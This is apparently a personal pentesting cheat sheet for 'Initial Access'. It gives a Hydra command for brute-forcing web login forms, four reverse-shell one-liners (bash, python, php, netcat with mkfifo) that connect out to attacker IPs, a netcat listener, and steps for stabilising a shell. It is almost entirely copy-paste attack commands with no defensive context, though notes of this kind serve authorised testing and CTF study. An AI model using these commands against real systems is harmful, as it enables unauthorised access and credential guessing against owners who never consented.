 # Initial Access

## Hydra
Post method example:
```sh
hydra -l <username> -P <password list> <target URL> http-post-form "/<login URI>:<login form data>:<error message>"
```

* [Cheat Sheet](https://medium.com/@cuncis/hydra-a-powerful-tool-for-password-cracking-and-network-security-testing-cheat-sheet-6573b74071ee)

## Reverse Shell
```sh
bash -i >& /dev/tcp/10.0.0.1/4242 0>&1

python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'

php -r '$sock=fsockopen("10.0.0.1",4242);exec("/bin/sh -i <&3 >&3 2>&3");'

rm -f /tmp/a; mkfifo /tmp/a; nc 10.13.60.191 4444 0</tmp/a | /bin/sh >/tmp/a 2>&1; rm /tmp/a 
```
* [Cheat Sheet](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/)
* [PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

Listener:
```sh
nc -lvnp 4444
```

## Shell Stabilization

### Option 1
```sh
python -c 'import pty;pty.spawn("/bin/bash")'
```

### Option 2
`ctrl + z` then
```sh
stty raw -echo && fg
```

### Option 3
```sh
rlwrap nc -lvnp 4444
```